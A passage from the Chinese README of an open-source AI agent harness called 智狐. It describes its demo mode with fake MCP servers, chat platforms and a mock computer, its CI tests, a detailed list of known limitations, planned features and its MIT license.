里面预先装了几个编造的 Skill，还预先接好了几个假的 MCP 服务器（其中一个启动不了、一个停用了）；
"从其他工具导入"读的是临时目录里编造的 Claude Desktop、Claude Code、Cursor、VS Code、Codex（TOML）、Goose（YAML）、
GitHub Copilot 的文件，还有一个故意写坏了的 Kiro 配置，不是你电脑上的。
全新的演示目录里预先放了一段"有多媒体库之前"的旧会话，"多媒体"里一打开就有东西可看，包括只剩文字的 Word 文件。
演示还会给每个聊天平台各启动一个假的：每一家打印一个编造的 token（或者 ID 和密钥），粘贴到"通道"的向导里；
另外打印两个简陋的"手机"页面的地址（一个给 Telegram，一个上面可以选别的平台），在那里可以发配对码、聊天、点"允许 / 拒绝"。
加 `--no-sdk` 看飞书、钉钉的 SDK 没装时页面是什么样子。
演示里浏览器是开着的：开始一段新对话，发一句含有"演示商店"的话（比如"用浏览器看看演示商店里有什么"），助手会用真的 Chrome
打开演示在本机起的一个小商店网页：先问你能不能去这个网站，然后读页面、点搜索框、输入（又问你一次）、截图。
加上 `--browser-window` 可以看着 Chrome 的窗口操作；这台电脑上没有 Chrome 的话，助手会说找不到。
演示里"操作整台电脑"也是开着的，背后是那台假的电脑（绝不碰你真的屏幕）：发一句含有"演示电脑"的话，会走一段写好的过程，
能看到截图、确认卡片和上面的"不再问"按钮、危险按键的警告，以及顶栏上的提示。
第一条消息里写着 `[ui:approve]` 这类暗号的对话，按 `tests/demo_scripts.py` 里同名的剧本回答（页面测试用的就是它们）：
`[ui:approve]` 要执行一条命令（弹出确认卡片），`[ui:long]` 回一段很长的话，`[ui:todo]` 加一条标题很长的待办，`[ui:hello]` 打个招呼，
`[ui:flaky]` 每条消息第一次都会失败（可以试试在失败的那一轮上"重新生成"）。
`--script 名字` 让没写暗号的对话也按那段剧本回答；README 里的截图用的是 `--script readme`，问的是中文就答中文，否则答英文。

每次推送到 GitHub、每个 pull request，都会在 Ubuntu、macOS 和 Windows 上用 Python 3.11 和 3.13 自动跑一遍测试和代码检查
（[.github/workflows/tests.yml](.github/workflows/tests.yml)），页面测试也在里面，用的是 GitHub 的机器上预装的 Chrome；
在 Ubuntu 上还会装好 Xvfb、`xdotool` 和 ImageMagick，让操作电脑的集成测试对着虚拟屏幕跑一遍。结果就是页面顶上的 Tests 徽章。

只在某一个系统上才说得通的测试，跳过时会写明原因：Windows 的路径装不进 launchd 的 plist 和 systemd 的 unit；Windows 上没有
3、4 号文件描述符和进程组；`icacls`、作业对象和真的 PowerShell 只在 Windows 上测；Windows 上建符号链接要管理员权限或者开发者模式，
做不到时那几个测试照这个原因跳过。别的在三个系统上都跑。

## 局限

- Windows 上：还不能操作整台电脑；只读的命令不会自动放行（每条都问）；注销、关机时智狐来不及好好地收尾（见[在 Windows 上使用](#在-windows-上使用)）。
- 后台服务（`harness service`）只对着假的 `launchctl` 和 `systemctl` 测过，测试从来不真的装上一个。macOS 上项目在"文稿""桌面""下载"里的话，
  可能要先给一个隐私权限。
- GPT 和 Gemini 没有用真实的密钥实测过（见上面"支持的模型"）。
- 用 GPT、Gemini、DeepSeek 时没有联网搜索。
- GPT、Gemini、DeepSeek 的压缩是智狐自己做的，还没有用真实的密钥测过。摘要难免丢掉细节；切口只能落在两轮之间，
  所以一轮对话自己就超出模型的上限时（比如一轮里读了很多大文件）压缩不了；不在 `config.py` 表里的模型一律按 12.8 万 token 的上限算，
  上限更大的模型会压缩得早一些。打开一段旧会话后，要等第一次请求量出它有多大，才知道要不要压缩。
- 附件只能在网页界面里发，终端界面不行。GPT 和 Gemini 看图片、GPT 读 PDF 没有用真实的密钥测过；Gemini 和 DeepSeek 读不了 PDF。
- GPT 走的是 Chat Completions 接口。OpenAI 的个别新模型如果只支持它的另一套接口，在这里用不了。
- Claude 的模型只列出程序适配过的三个，Anthropic 的其他模型接受的参数不完全一样。
- 每条命令都在全新的 shell 里运行，`cd` 和环境变量不会保留到下一条命令。
- 会话只在网页界面里保存，终端界面的对话关掉程序后不保留。
- 搜索不支持拼音（比如输入 `baogao` 找不到"报告"）。它把所有会话的文字放在内存里，
  会话非常多（几千段长对话）时会多占一些内存。正在进行、还没保存过的那一段搜不到。
- 一次只能进行一段对话：一段会话正在回复时，不能切换到另一段，也不能给会话改名或删除会话。
- 网页界面只画 Markdown 的一部分：CommonMark 加上 GitHub 的表格、任务列表和删除线。图片不加载（只显示说明文字和网址），
  HTML 按原文显示成文字，链接只认 http、https、mailto，不支持缩进四格的代码块、引用式链接和脚注。代码着色只认常见语言的
  注释、字符串、数字和关键字。终端界面照原样显示 Markdown 原文。
- 定时任务和聊天通道只在网页界面或者 `harness serve` 开着的时候运行；定时任务最多同时三个。
  聊天通道能收文字、图片和文件（还不能收语音和视频），也能把图片和文件发回去（QQ 除外：它只收公网网址上的图片）；
  WhatsApp 和企业微信要公网地址，还不支持。Discord、Slack、飞书、钉钉、QQ
  是照着它们官方的文档写的，目前只对着本地的假服务器测过，还没有接过真的机器人。两次运行（或者一次运行和你的对话）改同一个文件的同一处时不会合并：
  每次改动整个做完，后改的那一边发现原文已经变了就会报错，模型会重新读一遍再改。
  提醒只显示在页面上，不会弹出系统通知。
- 换成英文或西班牙语之后，工具返回的提示（比如"没有编号为 9 的待办"）仍然是中文：
  这些是写给模型看的。换语言之前保存的会话里，程序发出的提示也还是当时的语言。
- Skill：`allowed-tools` 不会让任何操作免于确认（见上面"Skill 是怎么工作的"）。Claude Code 的参数占位符
  （`$ARGUMENTS`、`$0`）、`!` 命令块、`context: fork`、`hooks` 等只有 Claude Code 用的字段，原样留在文件里但不起作用。
  从网址安装只支持公开的 https 链接，最多 20 MB；私有的 GitHub 仓库请先下载下来再上传。
- MCP 只支持工具，不支持 MCP 的资源（resources）和提示词（prompts）。远程服务器的 OAuth 登录还不支持；
  接受令牌的服务器加一个 `Authorization: Bearer …` 请求头就能用。已经废弃的 HTTP+SSE 连接方式不支持。
  调用到一半要向你提问的工具（elicitation）会失败并说明原因；也不让服务器借用智狐的模型（sampling）。
  MCP 工具返回的图片会交给模型，但页面上不显示。服务器写给模型的说明只给你看，不交给模型。
  对话进行中才连上或有变化的服务器，从下一段新对话开始才用得上。只对着假服务器测过，没有对着真实的第三方服务器测过。
- 浏览器只支持 Chromium 一系（Chrome、Chromium、Edge、Brave）。经由它，什么都不会进出你的磁盘：下载一律拒绝，"选择文件"的窗口被拦下，
  工具包里可选的成员（执行 JavaScript、上传文件）也没有打开。别的网站嵌进来的框里的内容读不成文字，只能截图看、按坐标点。
  网页弹出的对话框一律取消，不会替你回答。Claude 的浏览器工具包只对着本地的假 API 测过，还没有发过一次真实的 Claude 请求；
  给 GPT、Gemini、DeepSeek 的浏览器工具也没有用真实的密钥试过。Chrome 那一边是对着真的 Chrome（无界面）测过的。
- 操作整台电脑从来没有在真的屏幕上、用真实的密钥跑过：只对着假的电脑后端测过，以及在 CI 的 Ubuntu 上对着虚拟的 X11 屏幕。
  按照设计，macOS 上截图和发鼠标键盘事件的那几条路没有在真的屏幕上试过（只试过不碰屏幕的那几样：读屏幕的大小、看两样权限给了没有）；
  macOS 上上下、左右滚动的方向没有核实过；给 GPT、Gemini 的替身工具没有用真实的密钥试过。只用主屏幕；不支持 Wayland 和 Windows；
  不许碰的程序按名字认最前面的程序（macOS 上还认点击位置上的窗口），被挡在后面、只露出一部分的照样可能被截进图里。
  键盘布局不是美式的时候，打字打出来的字是对的，但快捷键按的是键的位置（按美式布局）。一次做得久了，截图会在历史里越攒越多；做一件新的事，就开一段新对话。
- 网页界面的"停止"在模型下一次有输出时生效：模型还在思考、没有任何输出的那几秒里，按了不会立刻停。
- Claude 的"拒绝后自动换模型重试"、"自动压缩历史"和"接着聊旧会话时丢掉对不上的思考内容"用的是 API 的
  beta 功能，其中第三个每个 Claude 请求都会带上。如果每个请求都报 400，可以在
  [harness/config.py](harness/config.py) 里把它们关掉（三个开关各管一个）。

## 可以接着做的方向

- 让终端界面也能保存和打开会话。
- 给常用的只读命令（`ls`、`git status`）加一个"本次会话不再询问"的选项。
- 给不支持联网搜索的模型接一个本地执行的搜索工具。
- 支持 MCP 的资源和提示词，以及远程 MCP 服务器的 OAuth 登录。
- 操作整台电脑支持主屏幕以外的屏幕，以及在一台测试用的电脑上用真实的 Claude 密钥试一遍。
- 给搜索加上拼音匹配。
- 再加一种界面语言：在 `harness/locales/` 下照着 `en.json` 写一份，再在 `harness/i18n.py` 的 `LANGUAGES` 里加上它。

## 关键词

AI agent · agent harness · 从零手写 agent · 不用框架的 agent · 个人 AI 助手 · 本地运行的 AI 助手 · Claude API ·
Anthropic SDK · OpenAI 兼容接口 · GPT · Gemini · DeepSeek · 工具调用（tool use / function calling） · 提示词缓存 ·
执行前确认（human-in-the-loop） · agent 循环 · 浏览器操作（browser use） · 操作整台电脑（computer use） · Chrome DevTools Protocol ·
Python · 终端聊天 · 网页界面

## 许可证

[MIT](LICENSE)。可以自由使用、修改和分发，保留版权声明即可。

## Star History

<a href="https://www.star-history.com/#Akxan/zhifox-agent-harness&Date">
  <picture>
    <source media="(prefers-color-scheme: dark)" srcset="https://api.star-history.com/svg?repos=Akxan/zhifox-agent-harness&type=Date&theme=dark" />
    <source media="(prefers-color-scheme: light)" srcset="https://api.star-history.com/svg?repos=Akxan/zhifox-agent-harness&type=Date" />
    
  </picture>
</a>
